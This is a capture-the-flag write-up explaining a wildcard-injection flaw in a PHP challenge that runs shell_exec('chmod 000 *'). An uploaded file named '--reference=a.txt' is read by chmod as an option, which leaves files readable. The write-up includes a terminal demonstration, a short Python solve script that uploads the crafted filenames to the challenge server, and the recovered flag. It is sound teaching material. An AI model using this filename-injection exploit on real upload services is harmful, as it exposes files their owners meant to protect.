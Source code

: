 The PHP code in the challenge runs the following command to make all files unreadable, including the flag.txt file:
```
shell_exec('chmod 000 *');
```

Instead of using PHP’s built-in chmod function, it uses the shell’s chmod command, which make the code vulnerable for wildcard injection. The command does not use `--` to signal the end of options. This means any file starting with `--` will be interpreted as a command-line option for chmod.

Example, if i can upload 2 file: `a.txt` and `--reference=a.txt`, the above command will copy permissions instead of setting them to 000.
```
[$] <> l
total 8.0K
drwxrwxr-x 2 nguyenlong05 nguyenlong05 4.0K Jan 27 21:57 .
drwxrwxr-x 9 nguyenlong05 nguyenlong05 4.0K Jan 27 21:57 ..
---------- 1 nguyenlong05 nguyenlong05    0 Jan 27 21:57 flag.txt
[$] <> touch a.txt            
[$] <> touch '--reference=a.txt'
[$] <> chmod 000 *
chmod: cannot access '000': No such file or directory
[$] <> l
total 8.0K
drwxrwxr-x 2 nguyenlong05 nguyenlong05 4.0K Jan 27 22:00  .
drwxrwxr-x 9 nguyenlong05 nguyenlong05 4.0K Jan 27 21:57  ..
-rw-rw-r-- 1 nguyenlong05 nguyenlong05    0 Jan 27 22:00  a.txt
-rw-rw-r-- 1 nguyenlong05 nguyenlong05    0 Jan 27 21:57  flag.txt
-rw-rw-r-- 1 nguyenlong05 nguyenlong05    0 Jan 27 22:00 '--reference=a.txt'
```
Solve script:
```py
import httpx

url = "https://612fd534-0d54-4bfd-8bc1-deeb5e2a5b1b.x3c.tf:1337/"
resp = httpx.post(url, files={"file": ("--reference=somefile.txt", "")})
resp = httpx.post(url, files={"file": ("somefile.txt", "")})

resp = httpx.get(f"{url}/uploads/flag.txt")
print(resp.text)
```
```
$ python3 solve.py
x3c{4lw4y5_chm0d_y0ur3_f1l35_4_53cur17y}
```